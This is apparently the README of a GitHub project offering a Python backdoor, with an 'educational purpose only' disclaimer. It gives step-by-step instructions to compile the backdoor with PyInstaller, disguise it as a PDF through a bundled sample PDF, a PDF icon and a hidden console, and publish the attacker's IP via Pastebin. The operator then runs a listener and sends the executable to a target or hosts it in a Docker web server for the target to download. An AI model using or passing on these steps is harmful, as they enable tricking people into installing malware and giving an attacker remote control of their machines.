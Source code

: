 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's

For educational Purpose only
Dosen't matter if target dosen't have pyhton installed

You should have these requirements :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. Must have docker installed if using it

## Steps to use this backdoor :
1. clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   ```
   cd to that directory
2. find your pyinstaller path and run :
    ```powershell
    C:\Users\username\Appdata\wherever\your\pyinstaller\is\there\pyintstaller.exe --add-data=sample.pdf:.  -—onefile -—noconsole --icon pdf.ico backdoor.py
    ```
   The created backdoor must be in your "dist" folder in that directory
   
3. Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection
## 🐳 | Docker :
for a proper web server (lacking in windows) to host the backdoor.exe file use docker ( I know using Python webserver is more simpler but I am using something different )
steps:
1. cd to Docker directory
then run :
   ```
   docker build -t Dcoker .
   ```
2. Run the container
    ```
    docker run Dcoker
    ```
and then make the target go to <your_IP>:8080 in broser to download the ready-made .exe
